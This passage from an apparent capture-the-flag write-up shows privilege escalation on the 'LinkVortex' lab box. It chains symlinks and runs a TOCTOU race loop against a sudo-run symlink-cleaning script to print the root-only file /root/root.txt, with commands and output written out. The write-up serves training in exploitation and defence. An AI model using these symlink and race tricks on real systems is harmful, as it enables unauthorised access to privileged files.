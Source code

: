 Next I’ll create `a.png`, another link pointing to `b`:

```

bob@linkvortex:/$ ln -s /home/bob/.cache/b /home/bob/.cache/a.png
bob@linkvortex:/$ ls -l /home/bob/.cache/a.png
lrwxrwxrwx 1 bob bob 18 Apr  8 20:58 /home/bob/.cache/a.png -> /home/bob/.cache/b

```

Now, with the environment variable to get contents set, I’ll check `a.png`:

```

bob@linkvortex:/$ CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /home/bob/.cache/a.png 
Link found [ /home/bob/.cache/a.png ] , moving it to quarantine
Content:
0a2801b6************************

```

It works.

#### TOCTOU

The intended way to abuse this is with a time-of-check-time-of-use vulnerability. If I can run a command between the time that it checks the target of the link and when it prints the contents of the file, I can change the target of the link.

When the link is checked, it’s in the original location pointing at a dummy non-flagged value. Then if it passes the scan, it is moved to `$QUAR_DIR`, and then the contents are printed. I’ll have a continuous loop looking for the file I want in `$QUAR_DIR` and overwriting it, hoping that I can do so before the contents are read:

```

bob@linkvortex:~$ while true; do ln -sf /root/root.txt /var/quarantined/toctou.png; done

```

`-f` in `ln` will force an overwrite if the file already exists.

Now in another terminal (I can just get another SSH session) I’ll create a link as a `.png`:

```

bob@linkvortex:/$ ln -s /home/bob/.bashrc /dev/shm/toctou.png
bob@linkvortex:/$ ls -l /dev/shm/toctou.png
lrwxrwxrwx 1 bob bob 17 Apr  8 21:04 /dev/shm/toctou.png -> /home/bob/.bashrc

```

When I run the script against this, it will check it, see that it points to bob’s `.bashrc` file, move it, and then print it. If my script runs between the move and the `cat`, it will show `root.txt` instead:

```

bob@linkvortex:/$ CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /dev/shm/toctou.png 
Link found [ /dev/shm/toctou.png ] , moving it to quarantine
Content:
0a2801b6************************

```
